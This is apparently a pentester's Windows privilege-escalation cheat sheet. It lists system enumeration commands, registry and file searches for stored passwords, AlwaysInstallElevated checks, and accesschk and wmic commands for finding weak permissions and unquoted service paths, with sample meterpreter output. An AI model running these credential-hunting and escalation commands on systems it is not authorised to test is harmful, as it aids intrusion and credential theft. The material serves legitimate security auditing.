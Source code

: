**Enumeration**

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

hostname

net users

ipconfig /all

route print

arp -A

netstat -ano

netsh firewall show state	

netsh firewall show config

schtasks /query /fo LIST /v

tasklist /SVC

net start

DRIVERQUERY

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

dir /s *pass* == *cred* == *vnc* == *.config*

findstr /si password *.xml *.ini *.txt

reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s

sc qc Spooler

**Unquoted Service Paths**

# When executing any of the sysinternals tools for the first time the user will be presented with a GUI
add an extra command line flag to automatically accept the EULA.

accesschk.exe /accepteula 

# Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

# Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

accesschk.exe -ucqv Spooler


**Unquoted Service Paths**
A vulnerability that occurs if a service executable path is not enclosed with quotation marks and contains space.

To identify these unquoted services you can run this command on Windows Command Shell:

wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

All services with unquoted executable paths will be listed:

meterpreter > shell
Process 4024 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
Vulnerable Service                                      Vulnerable Service                   C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe                   Auto       
C:\Users\testuser\Desktop>

**Sources:**

http://www.fuzzysecurity.com/tutorials/16.html

https://technet.microsoft.com/en-us/sysinternals/bb664922

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

https://hackmag.com/security/elevating-privileges-to-administrative-and-further/
